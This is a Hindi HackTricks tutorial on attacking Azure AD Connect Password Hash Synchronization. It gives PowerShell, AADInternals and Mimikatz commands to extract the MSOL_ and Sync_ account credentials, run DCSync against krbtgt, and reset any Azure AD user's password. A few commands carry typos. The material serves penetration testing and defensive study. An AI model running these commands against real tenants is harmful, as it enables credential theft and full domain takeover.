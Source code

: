 # Az - PHS - पासवर्ड हैश सिंक्रनाइज़ेशन

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## मूल जानकारी

**पासवर्ड हैश सिंक्रनाइज़ेशन** हाइब्रिड आइडेंटिटी प्राप्त करने के लिए इस्तेमाल किए जाने वाले साइन-इन तरीकों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस Active Directory इंस्टेंस से यूजर के पासवर्ड के हैश का हैश, क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह **सबसे आम तरीका** है जिसका इस्तेमाल कंपनियां ऑन-प्रिम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए करती हैं।

सभी **यूजर्स** और पासवर्ड हैशेस का **हैश** ऑन-प्रिम से Azure AD में सिंक्रनाइज़ किया जाता है। हालांकि, **क्लियर-टेक्स्ट पासवर्ड्स** या **मूल** **हैशेस** Azure AD में नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सिक्योरिटी ग्रुप्स (जैसे कि डोमेन एडमिन्स...) को Azure AD में **सिंक्रनाइज़ नहीं किया जाता है**।

**हैशेस सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **अकाउंट** **समाप्ति** Azure AD में **सिंक्रनाइज़ नहीं की जाती है**। इसलिए, एक यूजर जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया है) वह पुराने पासवर्ड का उपयोग करके Azure संसाधनों तक पहुंच जारी रख सकता है।

जब एक ऑन-प्रिम यूजर Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है जैसे कि **Identity Protection** और AAD Domain Services।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त अकाउंट्स** स्वतः **बनाए जाते हैं**:

* ऑन-प्रिम AD में **`MSOL_<installationID>`** अकाउंट स्वतः बनाया जाता है। इस अकाउंट को **Directory Synchronization Accounts** रोल दिया जाता है (देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका मतलब है कि इसे ऑन-प्रिम AD में **रेप्लिकेशन (DCSync) अनुमतियां** होती हैं।
* Azure AD में **`Sync_<on-prem ADConnect Server का नाम>_installationID`** अकाउंट बनाया जाता है। यह अकाउंट Azure AD में किसी भी यूजर (सिंक्रनाइज़ या क्लाउड केवल) का **पासवर्ड रीसेट कर सकता है**।

इन दो पिछले विशेषाधिकार प्राप्त अकाउंट्स के पासवर्ड **SQL सर्वर पर संग्रहीत किए जाते हैं** जो **Azure AD Connect स्थापित किए गए सर्वर पर होता है।** एडमिन्स उन विशेषाधिकार प्राप्त यूजर्स के पासवर्ड को क्लियर-टेक्स्ट में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड होता है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड होता है और इसमें ऑन-प्रिम AD में **`MSOL_*`** यूजर के पासवर्ड और AzureAD में **Sync\_\*** का पासवर्ड शामिल होता है। इसलिए, इन्हें समझौता करने से AD और AzureAD में प्रिवेस्क करना संभव है।

आप इन क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं, इसका [पूरा अवलोकन इस वार्ता में पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect सर्वर** का पता लगाना

यदि **Azure AD connect स्थापित किया गया सर्वर** डोमेन से जुड़ा हुआ है (दस्तावेज़ीकरण में सिफारिश की गई), तो इसे निम्नलिखित के साथ पता लगाना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** अकाउंट को समझौता करके किसी भी उपयोगकर्ता (ग्लोबल एडमिनिस्ट्रेटर्स सहित) का **पासवर्ड रीसेट** करना संभव है
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड में परिवर्तन किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
```markdown
इस उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **सेवा सिद्धांत को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **Sync** उपयोगकर्ता करने की **अनुमतियाँ** हैं, और फिर **उस सेवा सिद्धांत तक पहुँचना** प्रिवेस्क के तरीके के रूप में।
{% endhint %}

### सीमलेस SSO

PHS के साथ सीमलेस SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे जाँचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
```
